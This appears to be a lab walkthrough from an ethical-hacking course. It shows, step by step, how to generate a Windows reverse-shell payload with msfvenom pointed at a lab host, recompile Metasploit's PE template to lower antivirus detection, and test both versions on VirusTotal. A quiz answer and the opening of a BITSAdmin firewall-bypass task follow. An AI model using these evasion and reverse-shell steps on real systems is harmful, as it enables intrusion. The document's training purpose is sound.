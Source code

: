 Here, we will modify Metasploit templates to bypass antivirus detection.
	1. Click Parrot Security to switch to the Parrot Security machine.
	
	2. In the login page, the attacker username will be selected by default. Enter password as toor in the Password field and press Enter to log in to the machine.
	
	3. Click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.
If a Question pop-up window appears asking you to update the machine, click No to close the window.
	
	4. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	5. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	
	6. In the terminal window, type msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Windows.exe and press Enter, to generate payload.
	
	7. Double click on Firefox icon, to open Firefox browser and type https://www.virustotal.com in the address bar and press Enter.
	
	
	
	8. In the VirusTotal website click on Choose file option, in the File Upload window navigate to the /home/attacker directory and select Windows.exe file and click on Open.
	
	9. Once the file is uploaded click on Confirm upload button to start the analysis.
	
	10. After completing the analysis VirusTotal website shows the number of antivirus that have detected the virus.
	
	11. In the above screenshot we can see that 54 out of 70 antivirus vendors have detected the malicious file.
The result might differ when you perform this task.
	12. In the terminal, type pluma /usr/share/metasploit-framework/data/templates/src/pe/exe/template.c and press Enter.
	
	13. A template.c file appears, in the line 3 change the payload size from 4096 to 4000, save the file and close the editor.
	
	14. Now, type cd /usr/share/metasploit-framework/data/templates/src/pe/exe/ in the terminal and press Enter to navigate to exe folder.
	15. Type i686-w64-mingw32-gcc template.c -lws2_32 -o evasion.exe and press Enter, to recompile the standard template.
	
	16. Type ls and press Enter to list the contents of the exe folder.
	
	17. In a new terminal generate a payload using new template by the following command, msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -x /usr/share/metasploit-framework/data/templates/src/pe/exe/evasion.exe -f exe > /home/attacker/bypass.exe
	
	18. Now, switch back to the browser window and in the virustotal page, click on Upload file button on the top of the page.
	
	19. In the File Upload window, select bypass.exe file from /home/atttacker location and click Open.
	
	20. After selecting the file click on Confirm upload button, virustotal will analyze the detection of malicious file.
	
	
	
	21. You can observe that now only 48 out of 71 antivirus vendors have detected the malicious file, thus we can evade antivirus detection by modifying Metasploit templates.
The result might differ when you perform this task.
	22. Close all open windows.
Question 12.2.2.1
Modify Metasploit templates to bypass antivirus detection. Enter the new payload size that was entered in template.c file in this task.
4000
Task 3: Bypass Firewall through Windows BITSAdmin
BITS (Background Intelligent Transfer Service) is an essential component of Windows XP and later versions of Windows operating systems. BITS is used by system administrators and programmers for downloading files from or uploading files to HTTP webservers and SMB file shares. BITSAdmin is a tool that is used to create download or upload jobs and monitor their progress.
